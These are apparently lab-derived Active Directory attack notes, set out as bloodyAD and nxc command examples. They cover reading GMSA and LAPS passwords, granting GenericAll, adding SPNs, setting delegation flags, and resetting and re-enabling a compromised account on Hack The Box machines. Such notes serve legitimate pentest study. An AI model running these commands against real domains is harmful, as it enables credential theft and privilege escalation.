

# BloodyAD

## GMSA


```bash
bloodyAD -d rebound.htb -u tbrady -p 543BOMBOMBUNmanda --host dc01.rebound.htb get object 'delegator$' --attr msDS-ManagedPassword
```


## LAPS


```bash
bloodyAD -u <user> -d <domain> -p <pass> --host <ip> get object 'COMPUTER$' --attr ms-Mcs-AdmPwd
```


## LDAP Attributes


```bash
bloodyad -d puppy.htb -u levi.james -p KingofAkron2025! -i 10.129.232.75 get object ant.edwards
```


## Rights Assignment


```bash
# give oorend user GenericAll rights over the Service Users OU
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend
```


## SPN


```bash
# Add an SPN
bloodyad -d mollysec.local --host dc.mollysec.local -u molly -p 'Pass123!' set object bob servicePrincipalName -v 'HTTP/DoesNotMatter'
```


## UAC Values

The flags along with their corresponding values can be found [here](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties#list-of-property-flags). However, instead of calculating the values manually, we can use a tool like [uacdecoder](https://uacdecoder.com/uac_decoder_tool.html#article12-9) to do it for us.

### Delegations

#### Constrained


```bash
# Set CD from a Linux host
bloodyad -u molly -p Pass123 -d mollysec.local -i 10.10.10.5 set object 'badPc$' userAccountControl -v 16781312 --raw

# Set SPN
bloodyad -u molly -p Pass123 -d mollysec.local -i 10.10.10.5 set object 'badPc$' msDS-AllowedToDelegateTo -v 'ldap/dc01.mollysec.local'
```


#### Unconstrained


```bash
# Set UD from a Linux host
bloodyad -u molly -p Pass123 -d mollysec.local -i 10.10.10.5 set object 'badPc$' userAccountControl -v 528384 --raw
```


### Enable User

On the foothold section of [Puppy](https://www.hackthebox.com/machines/puppy), after compromising `ant.edwards`, we notice that it has `GenericAll` over `adam.silver`. Therefore, we can use that to change its password:


```bash
# Change the target's password
$ nxc smb dc -u ant.edwards -p $(cat ant-password) -M change-password -o USER=adam.silver NEWPASS=Pass123

# Validate credentials
$ nxc smb dc -u adam.silver -p Pass123
...
SMB    10.129.232.75    445    DC    [-] PUPPY.HTB\adam.silver:Pass123 STATUS_ACCOUNT_DISABLED
```


It seems that the account is disabled, which we can confirm via BloodHound:

<figure><figcaption></figcaption></figure>

We can decode its UAC value using [uacdecoder](https://uacdecoder.com/uac_decoder_tool.html#article12-9):

<figure><figcaption></figcaption></figure>

All we have to do in order to enable the object, is to subtract the value of `2` from the current flag:


```bash
# Set the new UAC value
$ bloodyAD --host 10.129.232.75 -d puppy.htb -u ant.edwards -p $(cat ant-password) set object adam.silver userAccountControl -v 66048
```

